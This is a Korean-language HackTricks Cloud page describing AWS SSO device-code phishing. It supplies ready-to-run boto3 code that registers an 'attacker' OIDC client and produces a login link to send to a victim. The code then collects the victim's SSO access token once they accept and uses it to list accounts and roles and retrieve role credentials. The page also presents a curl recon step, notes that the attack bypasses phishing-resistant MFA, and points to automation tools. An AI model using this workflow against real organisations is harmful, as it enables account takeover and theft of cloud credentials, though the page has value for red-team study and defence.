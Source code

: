 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* **PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}

## AWS Device Code Phishing

[**이 블로그 게시물**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)에서 처음 제안된 것처럼, AWS SSO를 사용하는 사용자에게 **링크**를 보내면 **사용자가 수락**할 경우 공격자가 **사용자를 가장할 수 있는 토큰**을 얻고 **Identity Center**에서 사용자가 접근할 수 있는 모든 역할에 접근할 수 있습니다.

이 공격을 수행하기 위한 요건은 다음과 같습니다:

* 피해자는 **Identity Center**를 사용해야 합니다.
* 공격자는 피해자가 사용하는 **서브도메인** `<victimsub>.awsapps.com/start`을 알아야 합니다.

이전 정보만으로도 **공격자는 사용자에게 링크를 보낼 수 있으며**, **수락**할 경우 **공격자는 AWS 사용자 계정에 접근할 수 있습니다**.

### Attack

1. **서브도메인 찾기**

공격자의 첫 번째 단계는 피해 회사가 Identity Center에서 사용하는 서브도메인을 찾는 것입니다. 이는 대부분의 회사가 여기서 이름이나 이름의 변형을 사용할 것이기 때문에 **OSINT** 또는 **추측 + BF**를 통해 수행할 수 있습니다.

이 정보로, Identity Center가 구성된 지역을 얻을 수 있습니다:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **피해자를 위한 링크 생성 및 전송**

피해자가 인증할 수 있도록 AWS SSO 로그인 링크를 생성하려면 다음 코드를 실행하세요.\
데모를 위해 이 코드를 python 콘솔에서 실행하고 나중에 토큰을 얻기 위해 일부 객체가 필요하므로 종료하지 마세요:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
Send the generated link to the victim using you awesome social engineering skills!

3. **피해자가 수락할 때까지 기다리세요**

피해자가 **이미 AWS에 로그인되어 있다면** 권한 부여를 수락하기만 하면 되고, 로그인되어 있지 않다면 **로그인 후 권한 부여를 수락**해야 합니다.\
현재 프롬프트는 다음과 같이 보입니다:

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSO 액세스 토큰 얻기**

피해자가 프롬프트를 수락했다면, 이 코드를 실행하여 **사용자를 가장한 SSO 토큰을 생성**하세요:
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSO access token은 **8시간 동안 유효**합니다.

5. **사용자 가장**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### 피싱 불가능한 MFA 피싱

이전 공격이 **"피싱 불가능한 MFA" (webAuth)를 사용해도 작동한다는 사실은 재미있습니다**. 이는 이전 **워크플로우가 사용된 OAuth 도메인을 절대 벗어나지 않기 때문입니다**. 다른 피싱 공격에서는 사용자가 로그인 도메인을 대체해야 하지만, 이 경우 디바이스 코드 워크플로우는 **디바이스가 코드를 알고** 사용자가 다른 기기에서도 로그인할 수 있도록 준비되어 있습니다. 프롬프트를 수락하면, 디바이스는 **초기 코드를 알기만 하면** 사용자의 **자격 증명을 가져올 수 있습니다**.

자세한 내용은 [**이 게시물**](https://mjg59.dreamwidth.org/62175.html)을 참조하세요.

### 자동화 도구

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 참고 자료

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWS 해킹 학습 및 연습:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP 해킹 학습 및 연습: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원</summary>

* [**구독 플랜**](https://github.com/sponsors/carlospolop)을 확인하세요!
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**telegram 그룹**](https://t.me/peass)에 가입하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)을 팔로우하세요.
* **PR을 제출하여** [**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 해킹 트릭을 공유하세요.

</details>
{% endhint %}
